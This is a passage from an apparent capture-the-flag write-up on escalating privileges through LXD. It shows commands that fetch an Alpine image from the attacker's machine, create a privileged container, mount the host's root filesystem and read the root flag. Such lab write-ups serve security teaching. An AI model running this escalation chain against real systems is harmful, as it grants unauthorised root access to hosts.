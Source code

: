 ```text
wget http://10.10.10.194:6666/alpine-v3.12-x86_64-20200826_2058.tar.gz
```

Third, import the image into lxc.

```text
lxc image import ./alpine-v3.12-x86_64-20200826_2058.tar.gz --alias rkhal101
```

**Note:** If you get the following error, run the “lxd init” command and accept all the default configurations. Then rerun the command to import the image into lxc.

![Image for post](https://miro.medium.com/max/1554/1*7VCHnxW4LbV3m-qvZKgIRg.png)

To view the list of images, run the following command.

```text
lxc image list
```

Fourth, run the image.

```text
lxc init rkhal101 rkhal101-container -c security.privileged=true
```

Fifth, mount the the / host directory into the image.

```text
lxc config device add rkhal101-container rkhal101-device disk source=/ path=/mnt/root recursive=true
```

The above command mounts the / host directory into the /mnt/root directory of the container.

Finally, start the container and run a bash shell.

```text
lxc start rkhal101-container
lxc exec rkhal101-container /bin/sh
```

Now we’re running as root in the alpine container \(_NOT_ the host OS\).

![Image for post](https://miro.medium.com/max/914/1*eugdbqqFzC44wzs0NXzMfw.png)

However, we mounted the host “/” directory to the directory “/mnt/root” in the alpine container. So if we visit “/mnt/root”, we can see the content of the “/” directory of the host OS.

![Image for post](https://miro.medium.com/max/1054/1*oK-jF_xpUyLNQdUgzKsh6A.png)

Therefore, we can view the _root.txt_ flag.

![Image for post](https://miro.medium.com/max/856/1*7JzHsycMw4kESSffRqKF3w.png)

Now although we can view the root flag, we’re not done yet! We’re currently root in the container, not the host OS. To truly escalate privileges, we need to escalate privileges on the host OS. There’s about a million ways to do that.

In this blog, we’ll escalate privileges in two ways.
